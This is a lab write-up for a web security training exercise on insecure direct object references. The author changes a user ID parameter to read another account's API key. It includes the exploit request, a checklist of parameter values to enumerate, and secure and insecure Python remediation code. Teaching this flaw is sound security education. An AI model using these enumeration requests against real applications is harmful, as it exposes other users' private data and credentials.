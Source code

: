 # User ID Controlled by Request Parameter

**Difficulty:** `APPRENTICE` | **Category:** `Access Control`

---

## 🎯 Lab Goal

Exploit horizontal privilege escalation to obtain carlos's API key.

---

## 📋 Lab Description

The application exposes a horizontal privilege escalation vulnerability in the account page through predictable user ID parameters.

---

## 🔎 Reconnaissance

### Initial Access

Logged in with provided credentials:

| Field | Value |
|-------|-------|
| Username | `wiener` |
| Password | `peter` |

### Account Page Analysis

Browsed to `/my-account` and captured the request in Burp Suite:

```http
GET /my-account?id=wiener HTTP/1.1
Host: [lab-id].web-security-academy.net
```

**Response:** Shows wiener's API key

---

## 🧪 Testing & Exploitation

### Step 1: Identify IDOR Vulnerability

Original request structure:
```
GET /my-account?id=wiener
```

🔍 **Vulnerability:** The `id` parameter directly controls which user's data is returned with no authorization check.

### Step 2: Parameter Manipulation

Modified the request to access another user's account:

**Original:**
```http
GET /my-account?id=wiener
```

**Modified:**
```http
GET /my-account?id=carlos
```

### Step 3: Extract API Key

Replayed the modified request.

**Result:** Response leaked carlos's API key! ✅

---

## 🚩 Solution

**Exploit Request:**
```http
GET /my-account?id=carlos
```

---

## 💡 Key Takeaways

### Insecure Direct Object Reference (IDOR)

Classic example of **horizontal privilege escalation**:
- User can access resources of other users at the same privilege level
- No authorization check validates ownership
- Predictable identifiers make enumeration easy

### IDOR Attack Patterns

| Parameter Type | Example | Risk |
|---------------|---------|------|
| Username | `?id=carlos` | High - Easy to guess |
| Sequential ID | `?id=123` | High - Easy to enumerate |
| GUID | `?id=uuid` | Medium - Harder but often leaked |
| Email | `?email=user@domain` | High - Often publicly known |

### Where to Look for IDOR

- Account/profile pages
- Document viewers
- Order history
- Private messages
- File downloads
- API endpoints

---

## 🛡️ Remediation

### Secure Implementation

**❌ Bad (No Authorization Check):**
```python
@app.route('/my-account')
def my_account():
    user_id = request.args.get('id')
    user = User.query.filter_by(username=user_id).first()
    return jsonify(user.to_dict())
```

**✅ Good (Proper Authorization):**
```python
@app.route('/my-account')
@login_required
def my_account():
    requested_id = request.args.get('id')
    current_user_id = session['username']
    
    # Verify ownership
    if requested_id != current_user_id:
        abort(403, "Access Denied")
    
    user = User.query.filter_by(username=requested_id).first()
    return jsonify(user.to_dict())
```

**✅ Better (Implicit Authorization):**
```python
@app.route('/my-account')
@login_required
def my_account():
    # Use session data, don't trust user input
    user = User.query.get(session['user_id'])
    return jsonify(user.to_dict())
```

### Best Practices

- ✅ **Always validate ownership** before returning data
- ✅ **Use session data** instead of user-supplied IDs when possible
- ✅ **Implement object-level authorization**
- ✅ **Use indirect references** (tokens/hashes instead of direct IDs)
- ✅ **Log unauthorized access attempts**
- ✅ **Rate limit** sensitive endpoints
- ✅ **Perform regular IDOR testing**

### Testing Checklist

```bash
# Try different user identifiers
?id=admin
?id=administrator
?id=1
?id=0
?userid=another_user

# Sequential enumeration
?id=1, ?id=2, ?id=3...

# Try null/empty
?id=
?id=null
```

---

**Status:** ✅ Solved
